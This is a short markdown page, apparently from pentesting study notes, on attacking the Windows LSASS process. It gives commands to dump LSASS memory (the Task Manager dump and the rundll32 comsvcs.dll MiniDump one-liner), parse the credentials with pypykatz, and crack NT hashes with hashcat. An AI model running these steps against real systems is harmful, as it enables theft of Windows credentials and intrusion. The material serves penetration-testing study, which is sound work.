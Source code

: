 

# Attacking LSASS

[See Windows credentials storage](windows-credentials-storage.md).


## Dumping LSASS Process Memory

There are several methods to dump LSASS process memory.


### 1. Task manager method 

Open it. In Process tab, search for `Local Security Authority Process`. Click right on it and select `Create dump file`. A file called `lsass.DMP` is created and saved in:

```cmd-session
C:\Users\loggedonusersdirectory\AppData\Local\Temp
```

Transfer file to attacking machine.


### Rundll32.exe & Comsvcs.dll method

Modern anti-virus tools recognize this method as malicious activity.

```powershell
# Finding LSASS PID in cmd
tasklist /svc

# Finding LSASS PID in PowerShell
Get-Process lsass

# Creating lsass.dmp using PowerShell
rundll32 C:\windows\system32\comsvcs.dll, MiniDump <PID> C:\lsass.dmp full
# With this command, we are running rundll32.exe to call an exported function of comsvcs.dll which also calls the MiniDumpWriteDump (MiniDump) function to dump the LSASS process memory to a specified directory (C:\lsass.dmp). 
```

Transfer file to attacking machine.


### 3. Pypykatz

pypykatz parses the secrets hidden in the LSASS process memory dump.

```bash
pypykatz lsa minidump /home/path/lsass.dmp 
```


## Crack the file

### Cracking the NT Hash with Hashcat

```shell-session
sudo hashcat -m 1000 hash /usr/share/wordlists/rockyou.txt
```